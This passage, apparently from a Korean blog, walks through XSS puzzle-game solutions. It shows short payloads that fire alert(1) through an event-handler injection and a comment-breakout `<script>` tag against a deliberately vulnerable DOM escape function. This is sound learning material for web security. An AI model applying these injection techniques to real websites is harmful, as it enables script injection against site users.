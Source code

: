 더블쿼터(")가 b에서 깨지게 됩니다. 따라서 b를 입력한 부분에서 원하는 event 핸들러를 적을 수 있습니다.

완성한 payload `http://[[z|onclick='alert(1)']]`(31자리)

> 하단의 iframe에서 클릭합니다. 클릭이 안되면 css를 좀 만집니다 :(

사람들이 최종적으로 30자리 Score를 얻었기에 조금더 연구해봤습니다.

완성한 payload `http://[[z|onblur='alert(1)']]`(30자리)

덕분에 3위권 입성!!



# DOM
```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```
입력값을 # 기준으로 잘라서 앞의 문자열은 document['create'+앞문자열] 하나는 만들어진 인자값으로 넘겨줍니다.

따라서 `TextNode#foo` 라고 입력하면 foo 라는 문자열이 담긴 DIV 엘리먼트를 출력할 수 있습니다.
Create로 만들 수 있는 종류는 아래와 같습니다.

```
createAttribute()
createCDATASection()
createComment()
createDocumentFragment()
createElement()
createElementNS()
createEntityReference()
createEvent()
createExpression()
createNodeIterator()
createNSResolver()
createProcessingInstruction()
createRange()
createTextNode()
createTouch()
createTouchList()
createTreeWalker()
```

이중 가장 쉬워보이는 Comment를 이용해서 payload를 작성했습니다.
payload `Comment#--><script>alert(1)</script>`(36자리)

순위권이긴 하지만 생각보다 순위 ㅠ_ㅠ 다른 방법을 모르겠내요.... 참고로 1등은 32자리
